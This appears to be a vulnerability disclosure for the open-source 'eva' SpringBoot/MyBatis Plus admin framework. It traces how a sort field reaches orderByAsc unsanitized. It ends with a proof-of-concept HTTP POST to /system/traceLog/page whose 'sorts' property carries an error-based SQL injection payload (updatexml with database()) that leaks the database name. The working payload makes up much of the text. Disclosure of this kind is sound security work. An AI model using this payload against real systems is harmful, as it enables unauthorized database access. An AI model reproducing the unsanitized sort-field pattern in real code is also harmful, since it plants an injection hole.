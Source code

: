 ### eva sql

project address:

https://github.com/coderd-repos/eva

Version: 1.0.0

Eva is an open source backend management system project framework based on SpringBoot and Mybatis Plus that supports online customized technology stacks and online customized function modules. Like other open source projects, in order to make project development simple enough, Eva has carefully designed and explored, adopted the idea of convention over configuration, and reasonably encapsulated the common functions of the project based on scalability, security, and readability. It is introduced and explained in detail in the document.

src/main/java/com/eva/api/system/SystemTraceLogController.java calls service layer findPage



![img](https://cdn-images-1.medium.com/max/1080/0*IAcGUHbyGl82XEV4)



src/main/java/com/eva/service/system/impl/SystemTraceLogServiceImpl.java findPage finally calls orderByAsc

![img](https://cdn-images-1.medium.com/max/1080/0*QAGmxNNz0amL54h9)

![img](https://cdn-images-1.medium.com/max/1080/0*WbtRXK4qGb0wZlEQ)

poc

```
POST /system/traceLog/page HTTP/1.1
Host: 127.0.0.1:10011
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:eva-auth-token=a5e53594-b9fa-45cc-a721-aa797e776384
Connection: close
Content-Type: application/json
Content-Length: 142

{
  "model": {},
  "page": 0,
  "capacity": 0,
  "sorts":[{"property":"updatexml(1,concat(0x7b,database(),0x7d),1)","direction":"asc"}]
}
```